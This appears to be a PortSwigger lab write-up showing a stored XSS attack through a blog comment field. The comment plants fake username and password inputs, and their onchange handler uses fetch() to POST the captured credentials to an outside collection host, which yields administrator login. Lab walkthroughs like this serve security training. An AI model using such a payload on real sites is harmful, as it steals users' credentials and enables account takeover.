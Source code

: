 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/202fabe4-f1e0-43e4-afa2-b429012dd12e)

### Solution

we go to the comment section in the blog

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d1060a5a-888a-4b93-a861-4bdbd2a76a1e)

In the comment box insert the following basic HTML input elements. In the password element we will add an event handler, ‘onchange’, that will trigger our new function called 'do()'

```js
<input type="text" name="username">
<input type="password" name="password" onchange="dothis()">
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a7e8e04e-a5df-4cc2-ae27-eb435f9ea536)

now post the comment and go back to blog to view it

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/05977348-e8ef-4af8-96ef-8b60dde6b694)

it worked, two fields with username and password was creted.Now we need to incorporate it into our payload using Fetch API.

payload

```js
<input name=username id=username>
<input type=password name=password onchange="fetch('https://domain.com',
{
method:'POST',
body:username.value+':'+this.value
}
);">
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/8027cf8e-ef29-4237-b21e-ce315a96f713)

now we go to burp collaborator and press poll now

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/91c2650c-963c-484d-b64b-2dcfa0bdcd93)

logged in as administrator and solved lab succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/57377f91-3e7e-4aa2-b5b4-754ca939f853)

